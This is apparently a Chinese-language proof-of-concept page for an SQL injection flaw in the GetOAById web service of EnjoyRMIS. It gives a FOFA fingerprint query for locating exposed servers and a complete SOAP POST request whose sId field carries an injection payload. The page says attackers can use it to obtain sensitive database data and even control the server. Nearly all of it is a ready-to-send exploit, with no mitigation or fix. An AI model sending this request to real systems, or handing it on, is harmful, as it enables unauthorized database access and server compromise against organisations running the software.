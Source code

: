 ## EnjoyRMIS-GetOAById存在SQL注入漏洞

  EnjoyRMIS GetOAById存在SQL注入漏洞,攻击者可通过该漏洞获取数据库敏感信息甚至可控制服务器。

## fofa

```
body="CheckSilverlightInstalled"
```

## poc

```yaml
POST /EnjoyRMIS_WS/WS/POS/cwsoa.asmx HTTP/1.1
Host: 
Content-Type: text/xml; charset=utf-8
Content-Length: length
SOAPAction: "http://tempuri.org/GetOAById"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <GetOAById xmlns="http://tempuri.org/">
      <sId>string' AND 8448 IN (SELECT (CHAR(113)+CHAR(113)+CHAR(113)+CHAR(122)+CHAR(113)+(SELECT (CASE WHEN (8448=8448) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(118)+CHAR(107)+CHAR(113)+CHAR(113))) AND 'OFyo'='OFyo</sId>
    </GetOAById>
  </soap:Body>
</soap:Envelope>
```

![image-20240707203405896](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407072034047.png)